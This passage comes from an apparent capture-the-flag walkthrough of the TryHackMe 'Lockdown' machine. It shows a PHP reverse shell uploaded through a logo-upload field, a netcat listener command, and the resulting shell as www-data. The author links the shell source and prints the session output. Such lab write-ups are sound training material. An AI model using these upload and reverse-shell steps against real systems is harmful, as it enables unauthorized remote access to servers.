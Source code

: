 <p align="center"><img src="./files/uplaod.png"></p>

I uploded a php reverse shell which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Don't forget to change the IP to your local IP.

Now we need to find a page that runs the logo page in order to call the shell. Open a listener (`rlwrap nc -lvnp 4444`) and logout of the admin panel and navigate to `http://contacttracer.thm` and our shell is called and we have a shell as `www-data`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Lockdown/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.189] from (UNKNOWN) [10.10.70.106] 44726
Linux lockdown 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:10:50 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: cannot set terminal process group (994): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
